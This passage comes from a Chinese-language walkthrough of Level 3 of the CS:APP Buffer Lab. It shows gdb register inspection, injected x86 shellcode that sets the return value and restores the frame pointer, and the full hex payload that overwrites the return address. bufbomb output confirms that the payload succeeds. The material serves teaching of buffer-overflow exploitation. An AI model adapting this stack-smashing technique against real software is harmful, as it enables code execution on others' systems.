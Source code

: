 ```bash
root@da1811a84ddc:~/csapp/04Buffer Lab (IA32)/buflab-handout# ./hex2raw < 2.txt | ./bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7
Type string:Bang!: You set global_value to 0x1005b2b7
VALID
NICE JOB!
```

### Level3

本关要求仍返回到 test, 不过返回值要修改为 cookie

首先拿到test调用getbuf后原本的返回地址 `0x08048dbe`,接着注意到getbuf还push了ebp,所以我们还需要打断点得到ebp的值 `0x556835e0`

```bash
(gdb) info r ebp
ebp            0x556835e0       0x556835e0 <_reserved+1037792>
```

所以对应的汇编如下

```x86asm
movl $0x1005b2b7,%eax
movl $0x556835e0,%ebp
push $0x8048dbe
ret
```

字节码得到

```txt
level3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   b8 b7 b2 05 10          mov    $0x1005b2b7,%eax
   5:   bd e0 35 68 55          mov    $0x556835e0,%ebp
   a:   68 be 8d 04 08          push   $0x8048dbe
   f:   c3                      ret
```

所以本关答案为

```txt
b8 b7 b2 05 10 bd e0 35 68 55
68 be 8d 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
88 35 68 55
```

```bash
root@da1811a84ddc:~/csapp/04Buffer Lab (IA32)/buflab-handout# ./hex2raw < 3.txt | ./bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7
Type string:Boom!: getbuf returned 0x1005b2b7
VALID
NICE JOB!
```
